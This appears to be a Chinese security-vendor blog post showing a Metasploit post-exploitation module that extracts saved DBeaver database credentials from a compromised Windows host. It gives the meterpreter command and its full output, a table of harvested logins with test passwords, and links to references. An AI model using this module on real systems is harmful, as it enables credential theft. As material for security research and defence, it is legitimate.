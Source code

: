 ![](https://gitee.com/fuli009/images/raw/master/public/20230216150621.png)

效果

    
    
    meterpreter > run post/windows/gather/credentials/dbeaver  
      
    [*] Gather Dbeaver Passwords on FireEye  
    [+] dbeaver .dbeaver-data-sources.xml saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_319751.txt  
    [*] Finished processing C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml  
    [+] dbeaver credentials-config.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_334807.txt  
    [+] dbeaver data-sources.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_309767.txt  
    [*] Finished processing C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver  
    [+] Passwords stored in: /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_host.dbeaver_421133.txt  
    [+] Dbeaver Password  
    ================  
      
    Name             Protocol    Hostname   Port  Username  Password        DB        URI                                        Type  
    ----             --------    --------   ----  --------  --------        --        ---                                        ----  
    Test_MYSQL       mysql       localhost  3306  root      test_password   db        jdbc:mysql://localhost:3306/db             dev  
    Test_PostgreSQL  postgresql  localhost  5432  postgres  test_passwordr  postgres  jdbc:postgresql://localhost:5432/postgres  dev  
    localhost        mysql       localhost  3306  root      test_mysql      db        jdbc:mysql://localhost:3306/db             test  
    postgres         postgresql  localhost  5432  postgres  test_postgres   postgres  jdbc:postgresql://localhost:5432/postgres  prod  
      
    meterpreter >

  

![](https://gitee.com/fuli009/images/raw/master/public/20230216150621.png)

参考

https://github.com/rapid7/metasploit-framework/pull/17337

https://github.com/dbeaver/dbeaver/wiki/Admin-Manage-Connections

https://stackoverflow.com/questions/39928401/recover-db-password-stored-in-my-
dbeaver-connection

  

 **安恒信息**

✦

杭州亚运会网络安全服务官方合作伙伴

成都大运会网络信息安全类官方赞助商
